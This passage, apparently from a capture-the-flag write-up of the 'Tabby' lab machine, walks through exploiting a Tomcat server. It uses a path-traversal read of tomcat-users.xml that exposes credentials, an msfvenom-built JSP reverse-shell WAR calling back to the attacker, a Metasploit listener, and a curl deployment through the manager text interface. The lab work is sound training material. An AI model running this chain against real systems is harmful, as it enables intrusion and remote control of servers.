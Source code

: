 It looks like /usr/share/tomcat9/etc/tomcat-users.xml exists, so we'll visit this in our browser!

view-source:http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

```
...
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
...
```

Now we have a username and password combination for the tomcat manager instance!

Visiting http://megahosting.htb:8080/manager/html and using the credentials gives us a "Permission denied" error since we're not on the same machine, but visiting http://megahosting.htb:8080/host-manager/html lets us connect.

If we looks at the roles that our user has, he isn't in the manager-gui group so we can't use the manager HTML interface, but he is in the manager-script group so we can use the text interface. We'll first need to create a war shell to upload:

```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.xx.xx lport=1234 -f war -o meter.war
```

We also need to open a listener:

```
$ msfconsole
$ use exploit/multi/handler
$ set LHOST 10.10.xx.xx
$ set LPORT 1234
$ exploit -j
```

With our shell ready to go, we can use curl to communicate with the server, after grabbing our Authorization Header with Burp:

```
curl -T meter.war -H "Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==" http://10.10.10.194:8080/manager/text/deploy?path=/shell
```

Now that the shell has been deployed, we can visit it in our browser at:

http://megahosting.htb:8080/shell

```
msf5 exploit(multi/handler) > shell session 1 opened (10.10.14.28:1234 -> 10.10.10.194:54304) at 2020-06-26 10:59:21 -0500
msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

Now, we'll import TTY to give ourselves a better shell, and do some enumeration:

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9/$
```
